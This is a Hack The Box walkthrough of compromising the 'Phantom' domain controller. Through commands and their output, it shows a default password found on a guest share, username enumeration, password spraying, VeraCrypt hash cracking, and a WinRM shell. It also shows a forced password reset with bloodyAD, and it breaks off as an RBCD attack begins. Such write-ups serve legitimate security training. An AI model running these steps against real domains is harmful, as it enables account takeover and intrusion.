


# HTB: Phantom


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/Phantom) |
| Difficulty | Medium |
| OS | Windows |
| Author | ByteFragment |
| Date | November 12th 2026 |


## Enumeration

Before we do anything lets create three files:

1. **credentials.txt** where we will store valid username/passwd combinations

2. **users.txt** where we will store all usernames we come across

3. **pass.txt** where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse if applicable.

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.46.255 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan:

```
PORT      STATE SERVICE       VERSION  
53/tcp    open  domain        Simple DNS Plus  
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-12 19:54:55Z)  
135/tcp   open  msrpc         Microsoft Windows RPC  
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn  
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: phantom.vl, Site: Default-First-Site-Name)  
445/tcp   open  microsoft-ds?  
464/tcp   open  kpasswd5?  
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0  
636/tcp   open  tcpwrapped  
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: phantom.vl, Site: Default-First-Site-Name)  
3269/tcp  open  tcpwrapped  
3389/tcp  open  ms-wbt-server Microsoft Terminal Services  
|_ssl-date: 2026-11-12T19:56:04+00:00; +1s from scanner time.  
| rdp-ntlm-info:   
|   Target_Name: PHANTOM  
|   NetBIOS_Domain_Name: PHANTOM  
|   NetBIOS_Computer_Name: DC  
|   DNS_Domain_Name: phantom.vl  
|   DNS_Computer_Name: DC.phantom.vl  
|   DNS_Tree_Name: phantom.vl  
|   Product_Version: 10.0.20348  
|_  System_Time: 2026-11-12T19:55:45+00:00  
| ssl-cert: Subject: commonName=DC.phantom.vl  
| Not valid before: 2026-11-11T19:49:18  
|_Not valid after:  2027-05-13T19:49:18  
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|_http-server-header: Microsoft-HTTPAPI/2.0  
|_http-title: Not Found  
9389/tcp  open  mc-nmf        .NET Message Framing  
49664/tcp open  msrpc         Microsoft Windows RPC  
49667/tcp open  msrpc         Microsoft Windows RPC  
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0  
49676/tcp open  msrpc         Microsoft Windows RPC  
49680/tcp open  msrpc         Microsoft Windows RPC  
64455/tcp open  msrpc         Microsoft Windows RPC  
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

From the nmap results, we can see that the target machine is running a `DNS` server on port 53, `LDAP` on port 389, `kerberos` on port 88, `SMB` share on port 445, an `RDP` server on port 3389 and `windows remote management` on port 5985. We can also see that the Host is named  `DC` and the domain is `phantom.vl` so lets add `dc.phantom.vl` and `phantom.vl` to our /etc/hosts file.

### SMBClient

Enumerating the SMB server reveals that the `guest` user has READ permissions on the `Public` share:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ netexec smb dc.phantom.vl -u 'guest' -p '' --shares           
SMB         10.129.234.63   445    DC               \[\*\] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                              
SMB         10.129.234.63   445    DC               \[+\] phantom.vl\\guest:########   
SMB         10.129.234.63   445    DC               \[\*\] Enumerated shares  
SMB         10.129.234.63   445    DC               Share           Permissions     Remark  
SMB         10.129.234.63   445    DC               -----           -----------     ------  
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin  
SMB         10.129.234.63   445    DC               C$                              Default share  
SMB         10.129.234.63   445    DC               Departments Share                   
SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC  
SMB         10.129.234.63   445    DC               NETLOGON                        Logon server share   
SMB         10.129.234.63   445    DC               Public          READ              
SMB         10.129.234.63   445    DC               SYSVOL                          Logon server share 
```

Accessing the share we see it contains a single electronic mail file named `tech_support_email.eml` which we can download:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ smbclient //10.129.234.63/public -U guest  ''  
Try "help" to get a list of possible commands.  
smb: \\\> ls  
  .                                   D        0  Thu Jul 11 08:03:14 2024  
  ..                                DHS        0  Thu Aug 14 04:55:49 2025  
  tech_support_email.eml              A    14565  Sat Jul  6 09:08:43 2024  
  
                6127103 blocks of size 4096. 2387662 blocks available  
smb: \\\> get tech_support_email.eml   
getting file \\tech_support_email.eml of size 14565 as tech_support_email.eml (41.6 KiloBytes/sec) (average 41.6 KiloBytes/sec)  
smb: \\\> 
```

Looking at the contents of the file we see it contains an email to the `Tech Support Team` regarding a example template for on boarding new employees as well an attached document.

```
Content-Type: multipart/mixed; boundary="===============6932979162079994354=="  
MIME-Version: 1.0  
From: alucas@phantom.vl  
To: techsupport@phantom.vl  
Date: Sat, 06 Jul 2024 12:02:39 -0000  
Subject: New Welcome Email Template for New Employees  
  
--===============6932979162079994354==  
Content-Type: text/plain; charset="us-ascii"  
MIME-Version: 1.0  
Content-Transfer-Encoding: 7bit  
  
  
Dear Tech Support Team,  
  
I have finished the new welcome email template for onboarding new employees.  
  
Please find attached the example template. Kindly start using this template for all new employees.  
  
Best regards,  
Anthony Lucas  
      
--===============6932979162079994354==  
Content-Type: application/pdf  
MIME-Version: 1.0  
Content-Transfer-Encoding: base64  
Content-Disposition: attachment; filename="welcome_template.pdf"  
  
JVBERi0xLjcKJcOkw7zDtsOfCjIgMCBvYmoKPDwvTGVuZ3RoIDMgMCBSL0ZpbHRlci9GbGF0ZURl  
Y29kZT4+CnN0cmVhbQp4nI1Vy4rcMBC8+yt0zsFTXZYsGcyAJY8hgT0sGcgh5LBksyE5LGRYyO+H  
bnsfM7OeyckvSdVV1dVGLe5vtRkOT78e7r4/uXxTqj8ODjWYXCtSd1Fc7Obr4Uf15YN7rHY3pdp8  
frp7vL873Pf95qZ8HB222zwuux3c4WeV91Vo6+SioPbB7e/dZhIndPuHrz1kK7EH0cAjoAURkRAQ  
0WFARrGnFuP22/5TtdtXt+/jyipum1inY9weOxAZE6JARCiNeAnb/e8LCFxHCKHmKrNoQHqltPCi  
/CjpheeALJ1+lwFBMiICCqIUBN0pSa5xb9YrY6zbE+6yM7mDTK+lLdCqRyZAvYPXb5JANUF0bUNQ  
  
\<SNIP\>
```

The attached document is a `PDF` file named `welcome_template.pdf` that has been `base64 encoded` so we will need to decode it in order to view it. After copying the base64 encoded text into a file, we can run the following to get a viewable pdf:

```
cat email.txt | base64 -d \> email.pdf
```

Opening the PDF we see the following:

```
Welcome to Phantom!  
Dear <NAME>  
We are excited to have you on board.  
Below are your user credentials:  
Username: \<USERNAME\>  
Password: \<REDACTED\>  
Please log in to your account using these credentials. For security reasons, we strongly  
recommend that you change your password immediately after your first login.  
If you have any questions or need assistance, feel free to reach out to our support team at  
techsupport@phantom.vl  
Best regards,  
The Phantom Team
```

This document contains the default password for new users! Let's see if we can find some usernames in order to initiate a `password spray` attack.

### Kerbrute Userenum

Given that there is a Kerberos server running on the target machine we can potentially enumerate any valid usernames using the [Kerbrute](https://github.com/ropnop/kerbrute) tool. This tool does require a wordlist so we will be using the [jsmith.txt](https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt) from InsideTrust. This tool will take each username from the wordlist and attempt to authenticate to the Kerberos Key Distribution Center. If when it attempts the authentication the KDC it received a prompt for pre-authentication then the username is confirmed to exist.

For the command we need to specify the domain with `-d PHANTOM.VL`, the domain controller with `--dc 10.129.234.63` and then the wordlist `jsmith.txt`. We will also use the `-o` option to output the results into a file:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ kerbrute userenum -d PHANTOM.VL --dc 10.129.234.63 jsmith.txt -o valid_users.txt      
  
    \_\_             \_\_               \_\_       
   / /\_\_\_\_\_  \_\_\_\_\_/ /\_  \_\_\_\_\_\_\_  \_\_/ /\_\_\_\_   
  / //\_/ \_ \\/ \_\_\_/ \_\_ \\/ \_\_\_/ / / / \_\_/ \_ \\  
 / ,\< /  \_\_/ /  / /\_/ / /  / /\_/ / /\_/  \_\_/  
/\_/|\_|\\\_\_\_/\_/  /\_.\_\_\_/\_/   \\\_\_,\_/\\\_\_/\\\_\_\_/                                          
  
Version: v1.0.3 (9dad6e1) - 11/12/26 - Ronnie Flathers @ropnop  
  
2026/11/12 12:42:05 \>  Using KDC(s):  
2026/11/12 12:42:05 \>   10.129.234.63:88  
  
2026/11/12 12:42:06 \>  \[+\] VALID USERNAME:       cjones@PHANTOM.VL  
2026/11/12 12:42:06 \>  \[+\] VALID USERNAME:       agarcia@PHANTOM.VL  
2026/11/12 12:42:11 \>  \[+\] VALID USERNAME:       twright@PHANTOM.VL  
2026/11/12 12:42:12 \>  \[+\] VALID USERNAME:       ccooper@PHANTOM.VL  
2026/11/12 12:42:15 \>  \[+\] VALID USERNAME:       crose@PHANTOM.VL  
2026/11/12 12:42:17 \>  \[+\] VALID USERNAME:       ssimpson@PHANTOM.VL  
2026/11/12 12:42:24 \>  \[+\] VALID USERNAME:       bbarnes@PHANTOM.VL  
2026/11/12 12:42:24 \>  \[+\] VALID USERNAME:       cferguson@PHANTOM.VL  
2026/11/12 12:42:27 \>  \[+\] VALID USERNAME:       ghall@PHANTOM.VL  
2026/11/12 12:42:39 \>  \[+\] VALID USERNAME:       alucas@PHANTOM.VL  
2026/11/12 12:42:55 \>  \[+\] VALID USERNAME:       rnichols@PHANTOM.VL  
2026/11/12 12:42:57 \>  \[+\] VALID USERNAME:       pharrison@PHANTOM.VL  
2026/11/12 12:43:10 \>  \[+\] VALID USERNAME:       nhamilton@PHANTOM.VL  
2026/11/12 12:43:13 \>  \[+\] VALID USERNAME:       lstanley@PHANTOM.VL  
2026/11/12 12:43:20 \>  \[+\] VALID USERNAME:       wstewart@PHANTOM.VL  
2026/11/12 12:43:29 \>  \[+\] VALID USERNAME:       ebryant@PHANTOM.VL  
2026/11/12 12:43:40 \>  \[+\] VALID USERNAME:       elynch@PHANTOM.VL  
2026/11/12 12:43:56 \>  \[+\] VALID USERNAME:       ppayne@PHANTOM.VL  
2026/11/12 12:45:45 \>  \[+\] VALID USERNAME:       ssteward@PHANTOM.VL  
2026/11/12 12:45:48 \>  \[+\] VALID USERNAME:       wsilva@PHANTOM.VL  
2026/11/12 12:47:36 \>  \[+\] VALID USERNAME:       vcunningham@PHANTOM.VL  
2026/11/12 12:48:14 \>  \[+\] VALID USERNAME:       vlynch@PHANTOM.VL  
2026/11/12 12:49:12 \>  Done! Tested 48705 usernames (22 valid) in 426.422 seconds
```

Checking the output file we see that it contains the entire output so we will need to extract just the usernames using the grep command:

```
grep -oP '\b\w+@PHANTOM\.VL' valid_users.txt > users_list.txt
```

This will extract the usernames from the output and pipe them into the `usernames.txt` file.

Attempting a password spraying attack with this list yields no results indicating that the username we are looking for was not in this wordlist so we will need to try a different user enumeration method.

### NetExec RID-brute

Another method of enumerating usernames is `RID Cycling` in which NetExec will systematically guessing the Relative Identifier (RID) portion of a Security Identifier (SID). Let's run the NetExec command and pipe it into a file:

```
netexec smb 10.129.234.63 -u guest -p '' --rid-brute \> rid_enum.txt
```

We again need to pull out just the usernames from the output which we can do using the following grep command:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ grep -E 'SidTypeUser|\\\[\\+\\\]' rid_enum.txt | grep -oP '(?<=\\)[^\s:(]+'
guest  
Administrator  
Guest  
krbtgt  
DC$  
svc_sspr  
rnichols  
pharrison  
wsilva  
elynch  
nhamilton  
lstanley  
bbarnes  
cjones  
agarcia  
ppayne  
ibryant  
ssteward  
wstewart  
vhoward  
crose  
twright  
fhanson  
cferguson  
alucas  
ebryant  
vlynch  
ghall  
ssimpson  
ccooper  
vcunningham
```

This gives us a couple more usernames than before so let's try the password spraying again with this new list:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ kerbrute passwordspray -d PHANTOM.VL --dc 10.129.234.63 usernames.txt '\<REDACTED\>' --verbose                
  
    \_\_             \_\_               \_\_       
   / /\_\_\_\_\_  \_\_\_\_\_/ /\_  \_\_\_\_\_\_\_  \_\_/ /\_\_\_\_   
  / //\_/ \_ \\/ \_\_\_/ \_\_ \\/ \_\_\_/ / / / \_\_/ \_ \\  
 / ,\< /  \_\_/ /  / /\_/ / /  / /\_/ / /\_/  \_\_/  
/\_/|\_|\\\_\_\_/\_/  /\_.\_\_\_/\_/   \\\_\_,\_/\\\_\_/\\\_\_\_/                                          
  
Version: v1.0.3 (9dad6e1) - 11/12/26 - Ronnie Flathers @ropnop  
  
2026/11/12 16:26:49 \>  Using KDC(s):  
2026/11/12 16:26:49 \>   10.129.234.63:88  
  
\<SNIP\>  
  
2026/11/12 16:26:49 \>  \[!\] fhanson@PHANTOM.VL:\<REDACTED\> - Invalid password  
2026/11/12 16:26:49 \>  \[+\] VALID LOGIN:  ibryant@PHANTOM.VL:\<REDACTED\>  
2026/11/12 16:26:49 \>  \[!\] alucas@PHANTOM.VL:\<REDACTED\> - Invalid password  
  
\<SNIP\>  
  
2026/11/12 16:26:49 \>  Done! Tested 31 logins (1 successes) in 0.726 seconds
```

Let's use these new credentials to run `bloodhound-python` to get a better understanding of the internal layout of the target system:

```
bloodhound-python -c All -d phantom.vl -u ibryant -p  '\<REDACTED\>' -dc dc.phantom.vl -ns 10.129.234.63
```

This will give us a series of .json files that we will need to upload to bloodhound which we can start using the `bloodhound-start` command.

We can then proceed with the upload:



Once the upload is complete we can search for the `ibryant` user and mark them as owned by right clicking and selecting `Mark as Owned`. The ibryant node will then be marked with a small skull:


### NetExec smb

Whenever we obtain new credentials it is good practice to revisit previous enumeration steps using these credentials as different users often have different permissions.

Let's use NetExec to test these new credentials:

```
┌──(kali㉿kali)-\[~/labs\_htb/Phantom\]  
└─$ nxc smb 10.129.234.63 -u ibryant -p '\<REDACTED\>'                               
SMB         10.129.234.63   445    DC               \[\*\] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                              
SMB         10.129.234.63   445    DC               \[+\] phantom.vl\\ibryant:########
```

Great! Now let's see what shares that `ibryant` has permissions on:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ nxc smb 10.129.234.63 -u ibryant -p '\<REDACTED\>' --shares                      
SMB         10.129.234.63   445    DC               \[\*\] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                              
SMB         10.129.234.63   445    DC               \[+\] phantom.vl\\ibryant:########   
SMB         10.129.234.63   445    DC               \[\*\] Enumerated shares  
SMB         10.129.234.63   445    DC               Share           Permissions     Remark  
SMB         10.129.234.63   445    DC               -----           -----------     ------  
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin  
SMB         10.129.234.63   445    DC               C$                              Default share  
SMB         10.129.234.63   445    DC               Departments Share READ              
SMB         10.129.234.63   445    DC               IPC$            READ            Remote   
  
\<SNIP\>
```

From this we can see that `ibryant` has READ permissions on `Departments Share` which is something the guest user did not have so let's enumerate this using the NetExec `spider_plus` module:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ nxc smb 10.129.234.63 -u ibryant -p '\<REDACTED\>' -M spider_plus        
SMB         10.129.234.63   445    DC               \[\*\] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                              
SMB         10.129.234.63   445    DC               \[+\] phantom.vl\\ibryant:########   
SPIDER_PLUS 10.129.234.63   445    DC               \[\*\] Started module spidering_plus with the following options:  
SPIDER_PLUS 10.129.234.63   445    DC               \[\*\]  DOWNLOAD_FLAG: False  
SPIDER_PLUS 10.129.234.63   445    DC               \[\*\]     STATS_FLAG: True  
SPIDER_PLUS 10.129.234.63   445    DC               \[\*\] EXCLUDE_FILTER: \['print$', 'ipc$'\]  
SPIDER_PLUS 10.129.234.63   445    DC               \[\*\]   EXCLUDE_EXTS: \['ico', 'lnk'\]  
SPIDER_PLUS 10.129.234.63   445    DC               \[\*\]  MAX_FILE_SIZE: 50 KB  
SPIDER_PLUS 10.129.234.63   445    DC               \[\*\]  OUTPUT_FOLDER: /home/kali/.nxc/modules/nxc_spider_plus  
SMB         10.129.234.63   445    DC               \[\*\] Enumerated shares  
SMB         10.129.234.63   445    DC               Share           Permissions     Remark  
SMB         10.129.234.63   445    DC               -----           -----------     ------  
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin  
SMB         10.129.234.63   445    DC               C$                              Default share  
SMB         10.129.234.63   445    DC               Departments Share READ              
SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC  
SMB         10.129.234.63   445    DC               NETLOGON        READ            Logon server share   
SMB         10.129.234.63   445    DC               Public          READ              
SMB         10.129.234.63   445    DC               SYSVOL          READ            Logon server share   
SPIDER_PLUS 10.129.234.63   445    DC               \[+\] Saved share-file metadata to "/home/kali/.nxc/modules/nxc_spider_plus/10.129.234.63.json"
```

The resulting share file metadata is saved to a json file which we can view using:

```
cat /home/kali/.nxc/modules/nxc_spider_plus/10.129.234.63.json | jq
```

This will cat the contents of the json file into `jq` which is a json command line processor.

Looking through the contents we see something interesting:

```
<SNIP>  
  
"IT/Backup/IT_BACKUP\.hc": \{  
      "atime_epoch": "2024-07-06 11:04:14",  
      "ctime_epoch": "2024-07-06 11:04:14",  
      "mtime_epoch": "2024-07-06 11:04:34",  
      "size": "12 MB"  
    \},  
  
<SNIP>
```

The `IT` share contains an `IT_BACKUP_201123.hc` file which is a encrypted virtual disk. We can download it using the following command:

```
┌──(kali㉿kali)-[~/labs_htb/Phantom\]  
└─$ nxc smb 10.129.234.63 -u ibryant -p '\<REDACTED\>' --share 'Departments Share' --get-file "\\\\IT\\\\Backup\\\\IT_BACKUP_201123.hc" ./IT_BACKUP_201123.hc  
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                              
SMB         10.129.234.63   445    DC               \[+\] phantom.vl\\ibryant:########   
SMB         10.129.234.63   445    DC               \[\*\] Copying "\\IT\\Backup\\IT_BACKUP_201123.hc" to "./IT_BACKUP_201123.hc"  
SMB         10.129.234.63   445    DC               \[+\] File "\\IT\\Backup\\IT_BACKUP_201123.hc" was downloaded to "./IT_BACKUP_201123.hc"
```

## FootHold

In order to view decrypt and view the content of the virtual disk we will need to crack it first. When starting the module HTB states that `"Should you need to crack a hash, use a short custom wordlist based on company name and simple mutation rules commonly seen in real life passwords (e.g. year and a special character)."`. So let's create that wordlist first using [Crunch](https://www.kali.org/tools/crunch/) :

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ crunch 12 12 -t 'Phantom202%^' -o wordlist.txt  
Crunch will now generate the following amount of data: 4290 bytes  
0 MB  
0 GB  
0 TB  
0 PB  
Crunch will now generate the following number of lines: 330   
  
crunch: 100% completed generating output
```

The `12 12` specifies that the passwords generated can have a min and max length of 12 given that the length of the company name `Phantom` followed by the year and a symbol is 12 characters. This format is specified by the `-t 'Phantom202%^'`

We can now attempt to crack the hash using the hashcat and our wordlist:

```
hashcat -m 13722 -a 0 IT_BACKUP_201123.hc wordlist.txt
```

After a while we see that the hash has been successfully cracked!

```
<SNIP>  
  
IT_BACKUP_201123.hc:<REDACTED>                            
                                                            
Session..........: hashcat  
Status...........: Cracked  
Hash.Mode........: 13722 (VeraCrypt SHA512 + XTS 1024 bit (legacy))  
Hash.Target......: IT_BACKUP_201123.hc  
Time.Started.....: Thu Nov 12 21:41:27 2026 (3 mins, 37 secs)  
Time.Estimated...: Thu Nov 12 21:45:04 2026 (0 secs)  
Kernel.Feature...: Pure Kernel (password length 0-128 bytes)  
Guess.Base.......: File (wordlist.txt)  
  
<SNIP>
```

In order to view the contents we will need to install [VeraCrypt](https://veracrypt.io/en/Downloads.html):

```
sudo dpkg -i veracrypt-1.26.31-Debian-13-amd64.deb
```

After successfully installing Vera Crypt we can try and mount the .hc file and enter the password:



Listing the contents of the newly mounted file we can see it contains a variety of files:

```
┌──(kali㉿kali)-[/media/veracrypt1]  
└─$ ls -al             
total 11196  
drwx------ 4 kali kali   16384 Dec 31  1969  .  
drwxr-xr-x 4 root root    4096 Nov 13 16:06  ..  
drwx------ 2 kali kali    1024 Jul  6  2024 '$RECYCLE.BIN'  
-rwx------ 1 kali kali   47391 Jul  6  2024  azure_vms_0805.json  
-rwx------ 1 kali kali   47391 Jul  6  2024  azure_vms_1023.json  
-rwx------ 1 kali kali   47391 Jul  6  2024  azure_vms_1104.json  
-rwx------ 1 kali kali   47391 Jul  6  2024  azure_vms_1123.json  
-rwx------ 1 kali kali 1012407 Jul  6  2024  splunk_logs_1003  
-rwx------ 1 kali kali 1012407 Jul  6  2024  splunk_logs_1102  
-rwx------ 1 kali kali 1012407 Jul  6  2024  splunk_logs_1203  
drwx------ 2 kali kali    1024 Jul  6  2024 'System Volume Information'  
-rwx------ 1 kali kali   19348 Jul  6  2024  ticketing_system_backup.zip  
-rwx------ 1 kali kali 8191211 Jul  6  2024  vyos_backup.tar.gz
```

Looking at these files the `vyos_backup.tar.gz` zip file looks interesting so let's unzip it and enumerate its contents:

```
tar -xvzf vyos_backup.tar.gz 
```

This gives us two new directories, `etc` and `config`. Config directories are great places to explore as config files often contain credentials or information that can help you better enumerate the system.

After enumerating the config directory we find that the file `/config/archive/config.boot` contains a set of credentials:

```
sstp {  
        authentication {  
            local-users {  
                username lstanley {  
                    password "\<REDACTED\>"  
                }  
            }  
            mode "local"  
        }
```

However when we attempt to validate these credentials we find they are not valid:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ nxc smb 10.129.234.63 -u lstanley -p '<REDACTED>'    
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                              
SMB         10.129.234.63   445    DC               [-] phantom.vl\lstanley:######## STATUS_LOGON_FAILURE
```

However with a new password in hand we can attempt another password spraying attack:

```
┌──(kali㉿kali)-[~/labs_htb/Phantom]  
└─$ nxc smb 10.129.234.63 -u usernames.txt -p '<REDACTED>'                          
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                              
SMB         10.129.234.63   445    DC               \[-\] phantom.vl\\guest:######## STATUS_LOGON_FAILURE   
SMB         10.129.234.63   445    DC               \[-\] phantom.vl\\Administrator:######## STATUS_LOGON_FAILURE   
SMB         10.129.234.63   445    DC               \[-\] phantom.vl\\Guest:######## STATUS_LOGON_FAILURE   
SMB         10.129.234.63   445    DC               \[-\] phantom.vl\\krbtgt:######## STATUS_LOGON_FAILURE   
SMB         10.129.234.63   445    DC               \[-\] phantom.vl\\DC$:######## STATUS_LOGON_FAILURE   
SMB         10.129.234.63   445    DC               \[+\] phantom.vl\\svc_sspr:######## 
```

It turns out that the `svc_sspr` service account uses the same password!

Looking back at our nmap scan we see that the target is running a Windows Remote Management server so let's try and use [evil-winrm](https://www.kali.org/tools/evil-winrm/) to access the machine:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ evil-winrm -i 10.129.234.63 -u svc_sspr -p \<REDACTED\>  
                                          
Evil-WinRM shell v4.1  
                                          
Info: Establishing connection to remote endpoint  
                                          
Info: Connection successful  
\*Evil-WinRM\* PS C:\\Users\\svc_sspr\\Documents\> whoami  
phantom\\svc_sspr  
\*Evil-WinRM\* PS C:\\Users\\svc_sspr\\Documents\> hostname  
DC
```

Success! We now have user access on the target machine! The use flag can be found in `svc_sspr`'s Desktop folder.

## Privilege Escalation

Let's revisit `BloodHound` and mark the `svc_sspr` user as owned :


We can now use one of BloodHound's most useful features, the `Cypher Queries`. Though you can write your own, BloodHound comes with a series of `Saved Queries` we can use immediately. The one we will focus on here is the `Shortest paths from Owned objects`, which provides us with an attack path starting at any object we have marked as Owned.

Running the Query we can see `svc_sspr` has `ForceChangePassword` on three users: `crose`, `rnichols`, and `wsilva`. Wsilva is the only one with a possible attack path.

We will use our `ForceChangePassword` permissions over `wsilva` to change their password and we will do this using `bloody-ad`.

### Bloody-AD

Here is a very useful Bloody-AD [cheatsheet](https://seriotonctf.github.io/BloodyAD-Cheatsheet/index.html).

Using the template from the cheat sheet:

```
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```

We fill in our target information:

```
bloodyad --host dc.phantom.vl -d phantom.vl -u svc_sspr -p \<REDACTED\> set password wsilva 'Password123!'  
\[+\] Password changed successfully!
```

We can then use `NetExec` to verify the password change:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ nxc smb 10.129.234.63 -u wsilva -p 'Password123!'   
SMB         10.129.234.63   445    DC               \[\*\] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                              
SMB         10.129.234.63   445    DC               \[+\] phantom.vl\\wsilva:######## 
```

Great! Since `wsilva` is a member of the `ICT Security` group which has `AddAllowedToAct` permissions over the `DC.PHANTOM.VL` computer we may be able perform a `Resource-Based Constrained Delegation` attack.

The first step in this process is checking the `ms-DS-MachineAccountQuota` which specified how many machines are able to be added to the domain. We can do so using the `bloody-ad` command:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ bloodyad --host dc.phantom.vl -d phantom.vl -u wsilva -p 'Password123!' get object "DC=phantom,DC=vl" --attr ms-DS-MachineAccountQuota  
  
distinguishedName: DC=phantom,DC=vl  
ms-DS-MachineAccountQuota: 0
```

Unfortunately the machine quota is set to 0 meaning we can not add a computer and thus cannot use a traditional RBCD attack.

Thankfully [thehacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users) has a very nice article on performing a RBCD on SPN-less users.

### Impacket

